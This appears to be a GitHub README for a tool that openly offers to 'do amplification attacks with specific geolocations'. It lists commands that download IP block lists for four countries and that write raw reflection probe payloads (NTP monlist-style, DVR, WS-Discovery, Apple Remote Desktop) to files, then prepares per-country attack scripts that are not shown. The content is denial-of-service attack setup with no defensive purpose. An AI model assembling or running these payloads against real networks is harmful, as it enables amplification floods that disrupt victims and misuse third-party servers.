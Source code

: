 # amplification_geolocation
Do amplification attacks with specific geolocations


wget https://www.ipdeny.com/ipblocks/data/countries/br.zone
wget https://www.ipdeny.com/ipblocks/data/countries/cn.zone
wget https://www.ipdeny.com/ipblocks/data/countries/kr.zone
wget https://www.ipdeny.com/ipblocks/data/countries/th.zone

echo -ne "\x17\x00\x03\x2a\x00\x00\x00\x00" > ntp.pkt

echo -ne "\x44\x48\x49\x50" > dvr.pkt

echo -ne "<:>" > wsd.pkt

echo -ne "\x00\x14\x00\x00" > ard.pkt


apt install dos2unix -y

dos2unix br.sh

dos2unix kr.sh

dos2unix cn.sh

dos2unix th.sh
